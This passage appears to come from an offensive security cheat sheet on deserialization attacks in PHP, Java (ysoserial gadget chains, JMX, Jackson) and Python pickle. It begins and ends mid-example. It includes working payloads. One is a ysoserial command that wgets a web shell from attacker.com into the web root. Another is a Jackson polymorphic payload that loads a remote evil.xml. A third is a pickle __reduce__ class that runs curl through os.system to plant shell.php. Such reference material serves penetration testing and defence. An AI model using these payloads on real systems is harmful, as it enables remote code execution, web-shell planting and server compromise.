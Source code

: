         // Creates object that converts to "0" in string context
        // Bypasses checks like: if($user_provided == "0") { /* admin access */ }
        ```
  
  - **Java deserialization attacks**
    
    - **Leveraging gadget chains**
      - Use frameworks like ysoserial to generate payloads
      - Common gadget chains:
        - Apache Commons Collections
        - Spring Framework
        - Groovy
        - Java Runtime Environment
      - Example ysoserial command:
        ```
        java -jar ysoserial.jar CommonsCollections6 'wget http://attacker.com/shell.php -O /var/www/html/shell.php' | base64
        ```
    
    - **JMX exploitation**
      - Target Java Management Extensions endpoints
      - Often exposed on internal networks
      - Serialize MBean server interactions
      - Inject malicious operations via RMI
    
    - **Java deserialization tools**
      - ysoserial: Generate payloads for known gadget chains
      - URLDNS: Simple test gadget to verify vulnerability via DNS
      - Serialization Dumper: Analyze and modify serialized Java objects
      - SerializationInspector: Inspect and modify serialized data
    
    - **Jackson/JSON deserialization**
      - Target polymorphic type handling
      - Exploit `@class` or `type` attributes
      - Example payload:
        ```json
        {
          "@class": "org.springframework.context.support.ClassPathXmlApplicationContext",
          "configLocation": "http://malicious-server/evil.xml"
        }
        ```
  
  - **Python pickle exploitation**
    
    - **Exploiting __reduce__ method**
      - Override the `__reduce__` method to execute code during deserialization
      - Craft custom pickled objects that execute commands
      - Example payload:
        ```python
        import pickle
        import base64
        import os

        class RCE:
            def __reduce__(self):
                cmd = "curl http://attacker.com/shell.php -o /var/www/html/shell.php"
                return os.system, (cmd,)
                